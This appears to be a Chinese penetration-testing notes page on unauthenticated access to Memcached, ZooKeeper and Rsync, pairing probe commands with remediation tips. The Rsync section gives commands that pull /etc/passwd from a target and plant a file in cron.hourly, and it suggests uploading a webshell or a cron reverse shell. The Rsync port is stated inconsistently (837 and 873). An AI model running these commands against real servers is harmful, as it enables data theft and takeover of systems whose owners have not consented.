- 添加认证

## Memcached 未授权访问

> Memcached 分布式缓存系统，默认的 11211 端口不需要密码即可访问，攻击者直接访问即可获取数据库中所有信息，造成严重的信息泄露.Memcache itself provides a means to peek into its content. The memcache protocol provides commands to peek into the data that is organized by slabs (categories of data of a given size range).

memcached的TCP,UDP端口都是11211

打法：默认情况下，可以通过telnet做memcached做任何的操作，包括获取信息、添加健值、删除数据项目。而且一般情况下memcached是以root用户启动，可以作为攻击的点做提权获取更多的系统信息（redis也有这问题，用redis持久化写文件，添加证书、修改sshd配置项目，添加cron等，有很多服务器就是这样沦为肉鸡的）。
1、验证

```bash
telnet 目标IP 11211

stats
#查看memcache服务状态
```

2、修复建议

- 绑定的ip地址为 127.0.0.1限制为内网访问
- 或者通过firewall限制访问

## Zookeeper未授权访问

ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境

1、验证

```bash
echo envi|nc 目标IP 2181
```

2、防护建议

- 添加认证
- 限制内网访问

## Rsync 未授权访问漏洞

Rsync（remote synchronize）是一个远程数据同步工具，可通过 LAN/WAN 快速同步多台主机间的文件，也可以同步本地硬盘中的不同目录。Rsync 默认允许匿名访问，默认端口837。

1、漏洞利用

```bash
#列举整个同步目录或指定目录：
rsync rsync://172.16.2.250:873/src

#下载文件或目录到本地：
rsync rsync://172.16.2.250:873/src/etc/passwd ./

#上传本地文件到服务端：
rsync -av nc rsync://172.16.2.250:873/src/etc/cron.hourly

#上传的文件可以直接是webshell或crontab反弹shell
```
